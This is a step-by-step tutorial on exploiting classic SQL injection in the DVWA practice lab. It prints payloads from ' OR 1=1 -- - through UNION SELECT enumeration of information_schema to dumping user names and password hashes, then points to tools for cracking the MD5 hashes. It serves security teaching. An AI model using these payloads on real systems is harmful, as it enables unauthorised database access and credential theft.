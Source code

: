 ```yaml
---
title: SQL Injection
description: Learn how to exploit sql injection vulnerability.
author: Kalidou DIA
---
```


# <center>CLASSIC SQL INJECTION - EXPLOIT</center>

![alt text](/img/sql_classic/sql_injection.jpeg#center)

## 1. Presentation

### In this tutorial, we'll look at how to exploit an SQL injection vulnerability.

The website in question contains a lot of vulnerabilities. In a way, it is a laboratory for exploiting and testing vulnerabilities.
The vulnerability we are going to describe in the following lines is "SQL injection". More information :[ click here to view](https://www.kaspersky.fr/resource-center/definitions/sql-injection)
<p>The technologies used on this website are :</p>

![alt text](/img/sql_classic/techno_site.png#center)

Description of interaction with site visitors

-  1. We ask the visitor to enter a user id
-  2. The server then returns the "First name" and "Surname" of the corresponding id.
<br>

![alt text](/img/sql_classic/gordon_screen.png#center)


## 2. How the website works 

### 2.1 Let's see how the site behaves when you enter values it doesn't expect
<div style="display:flex; flex-direction:row; justify-content: center; align-items: start;">
    <div>
        <p>Enter a character string with quotes instead of an integer</p>
        <img src="/img/sql_classic/coucou.png"/>
    </div>
    <div>
        <p>The server processes the request correctly and returns a code 200 to say that everything is fine. Which is abnormal.</p>
        <img src="/img/sql_classic/coucou_response.png"/>
    </div>
</div>

### 2.2 Let's see if the sql injection works.
To do this, we're going to guess (thanks to the technology used on this site) the SQL query that is used to retrieve the information displayed.
After several tests, we deduce that the query in question could look like this:

```SQL
    SELECT colonne1, colonne2
    FROM nom_de_la_table 
    WHERE id = '$id';
```
The *id* field is our input that has been sent to the server. This is the field we're going to use to change the SQL query.

To do this, we're going to put in a character string that will return all the lines.
The string in question is as follows: 
`` ' OR 1=1 -- - ``
<p> As a result, the query will be : </p>

```SQL
    SELECT colonne1, colonne2
    FROM nom_de_la_table
    WHERE id = '' OR 1=1 -- - ' ;
```

<p> This query will return the rows of the table concerned because the condition 

`` WHERE id='' OR 1=1 `` 
is always true. The characters "<span style="color:#FF5733">-- -</span>" are used to comment out the rest of the request, which will not be executed.</p>

![alt text](/img/sql_classic/exploit1.png#center)

The SQL injection passes and the table information is displayed.


## 3. Extract more information

We are sure that the site is vulnerable to SQL injection.
Let's try to get some more information.

### 3.1 Database version

By running a few tests, we know that there are two columns being requested in the query.
<p>As a result, our input will take this value :

''`` ' UNION SELECT NULL,version()-- - ``''
</p>


The query will look like this: 
```SQL
    SELECT colonne1, colonne2
    FROM nom_de_la_table
    WHERE  id = '' UNION SELECT NULL,version()-- - '
```

``version()`` or ``@@version`` is a system variable found in most SQL databases.


![alt text](/img/sql_classic/version.png#center)
The image above shows that this is a mariaDB.

### 3.2 Database names (schemas)

Our input here will take the following value: ``' UNION SELECT concat(schema_name),1 from information_schema.schemata -- - ``


``schema_name `` is also a system variable. So the schematics will be displayed in the first column and the value 1 in the second
We can see from the screenshot below that we have 2 comics: **dvwa'** and **information_schema**.

The database of interest to us is dvwa

![alt text](/img/sql_classic/schema.png#center)

### 3.3 Extract tables from the dvwa DB

input  :  <span style = "color : #FF5733 ">
``' UNION SELECT concat(TABLE_NAME),1 from information_schema.TABLES WHERE table_schema='dvwa' -- -``
</span>

**TABLE_NAME** is also a system variable
We can see that the dvwa DB contains two tables: users and guestbook

![alt text](/img/sql_classic/tables.png#center)


### 3.4 Extract columns from users table

input  :  <span style = "color : #FF5733 ">
``' UNION SELECT concat(COLUMN_NAME),1 from information_schema.COLUMNS WHERE TABLE_NAME='users' -- -``
</span>

**COLUMN_NAME** is also a system variable
The users table columns are :
    <li>user_id</li>
    <li>first_name</li>
    <li>last_name</li>
    <li>user</li>
    <li>password</li>
    <li>avatar</li>
    <li>last_login</li>
    <li>failed_login</li>

![alt text](/img/sql_classic/columns.png#center)


### 3.5 Extract all names and passwords

input  :  <span style = "color : #FF5733 ">
``'  UNION SELECT concat(0x28,first_name,0x3a,last_name,0x3a,password,0x29),1 from users -- -``
</span>

We use the ``concat()`` function to format and display as much information as we want.
<p>The characters <span style="color: #E85320"> 0x28 0x3a 0x29 </span> are respectively the ASCII representations of <span style="color: #E85320;"> <i>(</i> </span>, <span style="color: #E85320;"> <i>:</i> </span>  and <span style="color: #E85320;"> <i>)</i> </span> converted to hexadecimal. They are used for formatting</p>

The image below shows the various items of information recovered.
![alt text](/img/sql_classic/lines.png#center)

## 4. Cracking passwords

Note that the passwords are hashed. The hash used looks like MD5 (32 characters).
<p>To crack passwords, let's use <a href="https://www.openwall.com/john/">John the Ripper</a> or an online password cracker : <a href="https://md5decrypt.net/">MD5 decrypt</a></p>

![alt text](/img/sql_classic/decrypt_password.png)

The unencrypted passwords are shown in the image above.
